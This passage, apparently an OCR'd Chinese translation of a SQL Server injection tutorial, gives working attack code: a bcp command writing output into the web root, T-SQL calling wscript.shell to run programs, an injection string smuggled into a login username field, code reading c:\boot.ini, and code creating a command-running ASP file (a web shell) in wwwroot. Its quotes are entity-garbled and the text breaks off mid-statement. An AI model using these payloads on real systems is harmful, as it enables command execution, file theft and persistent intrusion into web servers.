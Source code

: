 bcp &quot;select * from text..foo&quot; queryout c:\inetpub\wwwroot\runcommand.asp -c -Slocalhost -Usa -Pfoobar

&amp;apos;S&amp;apos;参数为执行查询的服务器，&amp;apos;U&amp;apos;参数为用户名，&amp;apos;P&amp;apos;参数为密码，这里为&amp;apos;foobar&amp;apos;

[ActiveX automation scripts in SQL SERVER]

SQL SERVER中提供了几个内置的允许创建ActiveX自动执行脚本的存储过程。这些脚本和运行在windows脚本解释器下的脚本，或者ASP脚本程序一样--他们使用VBScript或javascript书写，他们创建自动执行对象并和它们交互。一个自动执行脚本使用这种方法书写可以在 Transact-SQL中做任何在ASP脚本中，或者WSH脚本中可以做的任何事情。为了阐明这鞋，这里提供了几个例子：

（1）这个例子使用&amp;apos;wscript.shell&amp;apos;对象建立了一个记事本的实例：

wscript.shell example

declare @o int

exec sp_oacreate &amp;apos;wscript.shell&amp;apos;,@o out

exec sp_oamethod @o,&amp;apos;run&amp;apos;,NULL,&amp;apos;notepad.exe&amp;apos;

我们可以通过指定在用户名后面来执行它：

Username：&amp;apos;; declare @o int exec sp_oacreate &amp;apos;wscript.shell&amp;apos;,@o out exec sp_oamethod @o,&amp;apos;run&amp;apos;,NULL,&amp;apos;notepad.exe&amp;apos;-

(2)这个例子使用&amp;apos;scripting.filesystemobject&amp;apos;对象读一个已知的文本文件：

--scripting.filesystemobject example - read a known file

declare @o int, @f int, @t int, @ret int

declare @line varchar(8000)

exec sp_oacreate &amp;apos;scripting.filesystemobject&amp;apos;, @o out

exec sp_oamethod @o, &amp;apos;opentextfile&amp;apos;, @f out, &amp;apos;c:\boot.ini&amp;apos;, 1

exec @ret=sp_oamethod @f,&amp;apos;readline&amp;apos;,@line out

while(@ret=0)

begin

print @line

exec @ret=sp_oamethod @f,&amp;apos;readline&amp;apos;,@line out

end

(3)这个例子创建了一个能执行通过提交到的任何命令：

-- scripting.filesystemobject example - create a &amp;apos;run this&amp;apos;.asp file

declare @o int,@f int,@t int,@ret int

exec sp_oacreate &amp;apos;scripting.filesystemobject&amp;apos;,@o out

exec sp_oamethod @o,&amp;apos;createtextfile&amp;apos;,@f out,&amp;apos;c:\inetpub\wwwroot\foo.asp&amp;apos;,1

exec @ret=sp_oamethod @f,&amp;apos;writeline&amp;apos;,NULL,&amp;apos;&amp;apos;
